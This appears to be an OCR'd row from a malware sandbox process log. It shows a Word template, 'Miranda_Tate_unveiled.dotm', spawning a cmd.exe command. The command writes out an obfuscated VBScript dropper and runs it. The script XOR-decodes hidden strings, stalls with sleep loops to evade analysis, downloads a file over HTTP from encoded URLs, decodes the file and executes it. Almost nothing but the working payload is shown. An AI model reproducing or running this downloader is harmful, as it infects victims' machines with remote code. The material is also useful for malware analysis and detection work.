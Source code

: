 | 4490  | cmd.exe /V /C set "GSI=%APPDATA%\%RANDOM%.vbs" &amp;&amp; (for %i in ("DIm RWRL" "FuNCtioN GNbiPp(Pt5SZ1)" "EYnt=45" "GNbiPp=AsC(Pt5SZ1)" "Xn1=52" "eNd fuNCtiON" "SUb OjrYyD9()" "J0Nepq=56" "Dim UJv,G4coQ" "LT=23" "dO WHiLE UJv&lt;&gt;3016-3015" "G4coQ=G4coQ+1" "WSCRiPt.sLEeP(11)" "LoOP" "UsZK0=85" "ENd suB" "fuNctIon J7(BLI4A3)" "K5AU=29" "J7=cHR(BLI4A3)" "XBNutM9=36" "eNd fuNCtiON" "SUb MA(QrG)" "WXCzRz=9" "Dim Jw" "Qt7=34" "Jw=TIMeR+QrG" "Do WhiLE tIMEr&lt;Jw" "WSCRipT.sleEP(6)" "LOOp" "EXdkRkH=78" "enD sUB" "fUnCTion M1p67jL(BwqIM7,Qa)" "Yi=80" "dIM KH,ChnFY,RX,Pg,C6YT(8)" "Cm=7" "C6YT(1)=107" "Rzf=58" "C6YT(5)=115" "BSKoW=10" "C6YT(4)=56" "Cwd6=35" "C6YT(7)=110" "AQ=98" "C6YT(6)=100" "Y6Cm1I=82" "C6YT(2)=103" "JH3F2i=74" "C6YT(8)=119" "JRvsG2s=76" "C6YT(3)=53" "Yh=31" "C6YT(0)=115" "GuvD=47" "Tbvf1=67" "SeT KH=cReATeObject(A9y("3C3A1D301F2D063708772930033C3C201C2D0A34203B053C0C2D", "Yo"))" "V2JR=73" "Set ChnFY=KH.GETfilE(BwqIM7)" "RGeJ=68" "SeT Pg=ChnFY.opEnASTExTstReAM(6806-6805,7273-7273)" "CtxOk=82" "seT RX=KH.cREateteXtFiLe(Qa,6566-6565,2508-2508)" "XPL9af=76" "Do uNtil Pg.aTEnDOfStReam" "RX.wRitE J7(OyVNo(GNbiPp(Pg.rEAD(6633-6632)),C6YT(0)))" "LooP" "IQz=49" "RX.cloSe" "CBR1gC7=51" "Pg.cLOSE" "PmG=64" "eNd funCTIOn" "FUNcTION Ql9zEF()" "IBL2=16" "Ql9zEF=secoND(Time)" "MUTkPNJ=41" "End FUNcTiOn" "FUnCtion A9y(Am,T1GCbB)" "CWCH9r=82" "Dim V3sl0m,F4ra,AxFE" "RLLp8R=89" "For V3sl0m=1 To (lEn(Am)/2)" "F4ra=(J7((8270-8232)) &amp; J7((5328/74))&amp;(miD(Am,(V3sl0m+V3sl0m)-1,2)))" "AxFE=(GNbiPp(mID(T1GCbB,((V3sl0m MOd Len(T1GCbB))+1),1)))" "A9y=A9y+J7(OyVNo(F4ra,AxFE))" "NeXT" "DxZ40=89" "enD fUNction" "Sub AylniN()" "N6nzb=92" "DIm GWJCk,Q3y,GKasG0" "FDu=47" "GWJCk=93961822" "UZ=32" "FoR Q3y=1 To GWJCk" "GKasG0=GKasG0+1" "neXt" "B1jq2Hk=63" "If GKasG0=GWJCk tHen" "KXso=18" "MA((-176+446))" "IP4=48" "Yq(A9y("0B3B1D44626E7E1020055D3C20230A3B0C503D31230C3700593135344D201B53772C39173D475E2826","QcOi4XA"))" "YTsWy=31" "elSe" "DO5gpmA=84" "A8=86" "EnD iF" "XyUP=64" "eND SuB" "sUB GKfD3aY(FaddNPJ)" "SDU0BLq=57" "DiM UPhqZ,KbcT" "DxejPK=88" "KbcT="Drn4AW"" "GROlc7=82" "sET UPhqZ=CREAteOBJecT(A9y("332A7B05156A211A46243629",KbcT))" "Gs0g=3" "UPhqZ.OpEn" "TF1=68" "UPhqZ.tyPE=6867-6866" "RDjmY=24" "UPhqZ.wrITe FaddNPJ" "WiFgvS=78" "UPhqZ.SaVeTOfIle RWRL,8725-8723" "AF=4" "UPhqZ.closE" "JC7sf2=1" "Cke4e" "JM=88" "EnD suB" "fuNCtIoN Yq(PDqi1)" "I0=22" "DiM YTwwO,BAU7Cz,Uv,JiYwVG,IK" "GJDnbE=32" "On ErrOR reSume NeXT" "B7bT=1" "Uv="Tk"" "ELw=73" "sEt YTwwO=CREaTeObjeCT(A9y("3C07082602241F7A383C0E3807",Uv))" "K4=62" "GAiF" "IS1cj=19" "Set Dzc0=YTwwO.eNVIrONMEnt(A9y("013B183400023A","EQiWw"))" "D9S=38" "RWRL=Dzc0(A9y("14630811720C14","XU3"))&amp;J7((8002-7910))&amp; Ql9zEF &amp; Ql9zEF" "AtCQ=95" "JiYwVG="FcQqQ"" "Tf=79" "sEt BAU7Cz=CrEATEoBjECT(A9y("2E38122329103E1725683B1C3D19123701",JiYwVG))" "QUY=56" "BAU7Cz.OpeN A9y("0D0E1E","KJ"),PDqi1,7387-7387" "JX2=58" "BAU7Cz.SeTReQuEstHeAdeR A9y("1F59242828","OM8J"),A9y("0D354C3D356B567A0F6B6B","VoL8XF")" "URkT=71" "BAU7Cz.SEnD()" "QdFeA6=65" "if BAU7Cz.StaTUstExt=A9y("652840353A542512023C5B3D572F27","S5I2A") then" "PwTLW23=36" "GAiF" "R4xYBS=63" "MA(4)" "PjL6m=46" "GKfD3aY BAU7Cz.ReSpONSEbody" "Fj98=72" "Else" "D7T=91" "IK="NNXFD0"" "NK=74" "SeT BAU7Cz= CreATeobJECT(A9y("033125365F3D213E326A68030210121060",IK))" "QJ=35" "BAU7Cz.oPeN A9y("2A2F0E","TmjZ8d"),A9y("07351B31556E40785D6F5D735D6F5E715B6F5E795D6E02291B33412B1F26","Ao" ),5022-5022" "UMp8=85" "BAU7Cz.SeTReqUesTheadER A9y("1439190A24","AFXwm"),A9y("371038301A716C5F7B6644","LUi")" "NluUc=93" "BAU7Cz.SENd()" "EOtR=44" "If BAU7Cz.STaTUSTexT=A9y("03510A3B3A51146F105F163B365E0C","OS0x") THen GKfD3aY BAU7Cz.REsPOnSeBODY" "Q6sMEZ=54" "I9Nl7=56" "end if" "Dq=54" "eND FuNCTioN" "fUNctIon OyVNo(U1,Brt0d)" "SNOW=59" "OyVNo=(U1 ANd noT Brt0d)oR(NOt U1 And Brt0d)" "QTi5K=54" "enD funcTION" "Sub Cke4e()" "WTOyAw=62" "dIM EuM,WIbud,NCiN,Fs8HJ" "A5AT=92" "NCiN=""""" "SX6=93" "WIbud=RWRL &amp; Ql9zEF &amp; A9y("4A330F3F","WdGbOGp")" "V5B7Zh=92" "M1p67jL RWRL,WIbud" "L13=45" "iF Fs8HJ="" tHen MA(4)" "CHaK=38" "EuM="Iqxkf"" "U56m=67" "SEt VP=creATeoBJEcT(A9y("262B081420010C453521141407",EuM))" "U5Quw=85" "VP.Run A9y("1023287B163629755C0D6C06270F1E01536C6E7551","UsNL") &amp; WIbud &amp; NCiN,2912-2912,5755-5755" "A6mfcYL=76" "End sUB" "JoxZ3=43" "AylniN" "suB GAiF()" "G4vzM=95" "Dim DCRml9g, CjoNOY9" "For DCRml9g = 68 To 6000327" "CjoNOY9 = Rvwr + 23 + 35 + 27" "Next" "KK0H=46" "enD sUb") do @echo %~i)&gt;"!GSI!" &amp;&amp; start "" "!GSI!" | 100    | "C:\Program Files (x86)\Microsoft Office\Office14\WINWORD.EXE" /n /f "D:\Miranda_Tate_unveiled.dotm"
|